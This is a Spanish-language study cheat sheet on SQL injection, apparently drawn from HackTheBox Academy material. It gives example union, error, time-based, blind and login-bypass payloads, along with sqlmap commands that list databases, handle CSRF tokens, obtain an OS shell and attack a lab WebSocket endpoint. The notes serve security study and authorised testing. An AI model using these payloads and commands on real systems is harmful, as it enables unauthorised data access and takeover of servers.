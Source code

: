# SQL Injection

## SQL Injection Fundamentals
- Una inyección SQL es una vulnerabilidad de seguridad que permite a un atacante interferir con las consultas que una aplicación web realiza a su base de datos SQL.
- La inyección SQL se produce cuando se insertan datos no validados en una consulta SQL.
- La inyección SQL puede ser utilizada para leer, modificar y eliminar datos de una base de datos.
- La inyección SQL puede ser utilizada para ejecutar comandos en el sistema operativo.
- Hay diferentes tipos de inyecciones SQL, como la inyección SQL basada en errores, la inyección SQL basada en tiempo y la inyección SQL ciega.
![](https://academy.hackthebox.com/storage/modules/33/types_of_sqli.jpg)
    - union based SQL injection
        - ejemplo de payload: `1' UNION SELECT 1,2,3 --`
    - error based SQL injection
        - ejemplo de payload: `1' AND 1=CONVERT(int, (SELECT @@version)) --`
    - time based SQL injection
        - ejemplo de payload: `1' AND IF(1=1, SLEEP(5), 0) --`
    - blind SQL injection
        - ejemplo de payload: `1' AND SLEEP(5) --`

### Deteccion de SQL Injection
- Generalmente al poner un `'` en un campo de texto y si la aplicación devuelve un error de SQL, es probable que sea vulnerable a SQL Injection.
- También se puede poner un comentario `--` como intento de primer payload.
- Otra forma de detectar SQL Injection es mediante la inyección de comandos SQL en los campos de texto y observar si la aplicación devuelve resultados inesperados.
    - **"Error: near line 1: near "'": syntax error"** es un mensaje de error común que se obtiene cuando se inyecta un `'` en un campo de texto.
    - Ejemplo: `1' OR '1'='1`

### Login Bypass SQL Injection
- La inyección SQL se puede utilizar para eludir la autenticación de un sistema.
- Ejemplo de payload: `admin' OR '1'='1`
    - Si el usuario y la contraseña son correctos, la consulta SQL se verá así: `SELECT * FROM users WHERE username='admin' AND password='password'`
    - Esto genera una tautología que siempre es verdadera, entonces la va a tomar como verdadera y va a permitir el acceso.
![](https://academy.hackthebox.com/storage/modules/33/or_inject_diagram.png)

## SQLMAP
- SQLMAP es una herramienta de prueba de penetración de código abierto que automatiza el proceso de detección y explotación de vulnerabilidades de inyección SQL.

### Comandos generales
- `sqlmap -u URL --dbs` para listar las bases de datos.
- `sqlmap -r HTTP-REQUEST-FILE --dbs` para usar un archivo con la request.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch` para usar un archivo con la request y no hacer preguntas.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3  --current-user --current-db --is-dba` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad, y obtener información del usuario actual, base de datos actual y si es DBA.

#### Anti-CSRF Token
- Si la aplicación web utiliza tokens CSRF, se puede usar el parámetro `--csrf-token` para especificar el token CSRF.
- Ejemplo: `sqlmap -u URL --csrf-token=CSRF-TOKEN --dbs`
- `sqlmap -u URL --randomize=rp --dbs` para randomizar el token CSRF.
- `sqlmap -u URL --eval="import time; time.sleep(10)" --csrf-token=CSRF-TOKEN --dbs` para evaluar un script de python y dormir el tiempo que se le pase como argumento.

#### OS shell
- `sqlmap -u URL --os-shell` para obtener una shell en el sistema operativo.


## SQLI en WebSockets
- Dentro de los websockets se pueden realizar consultas SQL.
- Hay que estar atento al burp proxy para ver las peticiones y respuestas.
- sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
